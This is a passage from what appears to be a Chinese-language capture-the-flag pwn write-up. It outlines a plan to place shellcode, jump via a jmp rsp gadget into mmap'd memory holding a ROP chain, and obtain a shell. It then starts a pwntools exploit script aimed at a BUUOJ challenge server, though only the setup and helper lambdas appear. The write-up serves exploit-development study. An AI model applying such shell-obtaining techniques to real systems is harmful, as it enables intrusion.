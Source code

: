 ```bash
32+8=40
```

[![](assets/1701612140-8570dc93c4caa0a0dd393ef55e1de923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203630-5c4cca76-3b68-1.png)

知道了起始地址，这段空间大小 0x1000，也就是说 read 里面读取到哪里都无所谓反正 mmap\_place+x<=max\_place 就可以，后面那个 0x100 是读取大小

所以思路也就有了：

*   首先构造我们的 shellcode
*   利用 jmp\_rsp，跳转到给我们提供 mmap 的内存这里写入我们的 ROP 链
*   getshell

先上 exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",25757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
```